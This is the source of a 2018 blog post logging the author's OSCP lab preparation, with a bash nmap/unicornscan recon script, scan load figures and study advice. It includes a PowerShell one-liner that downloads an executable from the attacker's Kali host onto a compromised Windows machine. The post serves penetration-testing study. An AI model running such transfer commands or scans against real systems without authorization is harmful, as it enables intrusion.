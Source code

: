 ```yaml
---
id: 363
title: OSCP Journey Part 9
date: 2018-08-09T09:50:04+01:00
author: rowbot
layout: post
guid: http://offsecnewbie.com/?p=363
permalink: /2018/08/09/oscp-journey-part-9/
image: /wp-content/uploads/2018/06/perfexion_logo.png
categories:
  - Progress Bar
---
```

 

<pre class="wp-block-preformatted">Day: -44
PDF: 90%
Videos: 95%
Boxes: 7
Networks:1</pre>

So seven boxes down currently have low priv on the 8th &#8211; have spent approx 4 days getting low priv thanks to a sneak port choice. Took a break yesterday from the box to work on an initial scan script that would pick up something like that in future. I would have a lot more boxes completed if I could use metasploit! But I can&#8217;t rely on it in the exam so I&#8217;m not using it in the lab (other than mutli/handler and using the payloads listed in my previous post).

<pre class="wp-block-preformatted">#!/bin/bash<br />if [[ -z "$1" ]]; then<br />        echo "USAGE: ./scanner.sh [IP ADDRESS}"<br />        exit 1<br />fi<br />ip=$1<br /><br />echo ---------HAVE YOU BOUNCED THE BOX??----------------<br />echo FAST NMAP SCAN OF $ip 100 PORTS<br />nmap $ip -F -oN quick$ip<br /><br />echo TCP NMAP SCAN ALL PORTS OF $ip<br />echo if this takes longer than 10 mins re run scan. Possibly restart box.<br />nmap $ip -p- -sT -oN tcpall$ip -T4 <br /><br />echo UNICORN SCAN OF ALL PORTS <br />unicornscan $ip:a > uniall$ip<br />echo <br />echo EXTRACTING PORTS FROM quick$ip and tcpall$ip<br />cat quick$ip tcpall$ip | grep open | cut -d" " -f1 | sort -u<br />echo<br />echo VIEWING uniall$ip<br />cat uniall$ip
</pre>

Let me know if you use it/find it useful/suggest ways to improve it.

Even though the Nmap book says -sS scans are quicker, I&#8217;ve found this not to be the case, -sT scans have been quicker for me.

The script gives you a quick scan of the 100 most common ports and outputs that so you can begin working on a box, ie its found a web-server, while the -sT can is running go view the web page etc. The -sT scan run a -T4 has been the most reliable in testing, -T5 has missed ports and T3 (which is the normal scan when you run nmap) is a bit too slow &#8211; though very reliable. The unicorn scan is a quick check of the other 2 scans, as its always good to use a different tool to verify findings.

Now I&#8217;m sure there are ways to improve this script as its very basic but so far its been quite solid for me. The only thing I would say is that I couldn&#8217;t figure out how to grep the output of unicornscan.

Some interesting nmap scan stats about scans I&#8217;ve put together

<table class="wp-block-table">
  <tr>
    <td>
      <strong>Scan</strong>
    </td>
    
    <td>
      <strong>Network impact</strong> 
    </td>
    
    <td>
      <strong>Against /24</strong> 
    </td>
  </tr>
  
  <tr>
    <td>
      nmap –F $ip 
    </td>
    
    <td>
      0.005436MB 
    </td>
    
    <td>
      1.38MB 
    </td>
  </tr>
  
  <tr>
    <td>
      nmap &#8211;top-ports 20 $ip
    </td>
    
    <td>
      0.014MB 
    </td>
    
    <td>
      3.57MB 
    </td>
  </tr>
  
  <tr>
    <td>
      nmap –p- $ip
    </td>
    
    <td>
      2.971MB 
    </td>
    
    <td>
      757.60MB 
    </td>
  </tr>
  
  <tr>
    <td>
      Nmap –A $ip
    </td>
    
    <td>
      2.399MB 
    </td>
    
    <td>
      611.74MB 
    </td>
  </tr>
  
  <tr>
    <td>
      Nmap –p 139,443 –script=smb-vuln* $ip
    </td>
    
    <td>
      0.12MB 
    </td>
    
    <td>
      30.60MB 
    </td>
  </tr>
</table>

So really think about what scan you want to run on a network because as you can see if scanning a whole range you will definitely affect the network with the load you are putting on.

My current struggle is Windows priv esc. I&#8217;ve used windows exploit suggester but every exploit I try doesn&#8217;t work. I&#8217;m obviously not doing something correctly, or the Offsec admins have manually patched the vulnerability its suggesting.

Nice script to put files on a windows machine with powershell

<pre class="wp-block-preformatted">powershell -c "(new-object System.Net.WebClient).DownloadFile('http://kaliboxip/AFILE.exe','C:\Users\USERYOURLOGGEDINAS\Desktop\AFILE.exe')"</pre>

To those reading this who have not started or are thinking about it. Seriously take the time to explore hackthebox and vulnhub and really think about the tools your using and the exploits you&#8217;ve used. Refine your method, get very comfortable with nmap, especially the scripting engine. Learn to get stuck and fed up and want to give up &#8211; but keep at it until you pwn that box. Document what you have learned from the box &#8211; don&#8217;t think &#8216;its okay i&#8217;ll remember that&#8217;. You won&#8217;t &#8211; believe me. There as been quite a few times I&#8217;ve forgotten something and popped on to where I&#8217;ve documented it on this site as a reminder.

Lastly, I&#8217;ve booked the exam date&#8230;.and accepted my fate of not passing on this attempt. I will eventually pass this exam I have set my mind to that, I don&#8217;t care how long it will take me. 

I hope this blog helps someone who has read other blogs and how they have pwned all the boxes in 2 days (exaggeration) and passed first time.

<div class="wp-block-image">
  <figure class="aligncenter"><img src="https://i2.wp.com/offsecnewbie.com/wp-content/uploads/2018/08/madrobot.png?w=680" alt="" class="wp-image-376" data-recalc-dims="1" /></figure>
</div>
